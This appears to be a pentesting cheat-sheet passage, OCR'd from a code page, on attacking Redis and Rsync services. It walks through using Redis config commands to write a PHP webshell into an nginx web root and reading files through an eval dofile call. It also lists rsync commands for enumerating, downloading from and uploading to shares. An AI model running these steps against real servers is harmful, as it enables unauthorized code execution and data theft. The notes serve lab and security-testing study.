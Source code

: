  #### Getting rce through redis
 
 we can get webshell through redis if we have write access to a directory whithin web root or accessible by some other means
 
> nc -nv $ip port
 
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>" # Our code goes here
OK
10.85.0.52:6379> save
OK

Or
the eval dofile allows us to read system sensitive files via redis

redis-cli -h 10.10.188.12 -p 6379 eval "dofile('C:\\\Users\\\enterprise-security\\\Desktop\\\user.txt')" 0



we can also use netcat to connect to redis

> nc $ip port

### Rsync

Rsync works like ftp and is used to synchronise files in shared environment

### To see available shares
   
>  nmap -sV --script "rsync-list-modules" -p <PORT> <IP>     
                       OR
>  rsync -av --list-only rsync://192.168.0.123/                        
   
   ##### To see the available shared content
     
     
> rsync  $ip::sharename      
     
     or
     
>  rsync -av --list-only rsync://192.168.0.123/shared_name
     
                          

#### To copy the contents to our local machine
     
> rsync -av rsync://IP:PORT/shared_name <localpath>

#### UPload to rsync server

> rsync ./myfile.txt $ip::sharename/restofpath

we can also upload a folder

> rsync -r ./myfolder $ip::sharename/restofpath 
 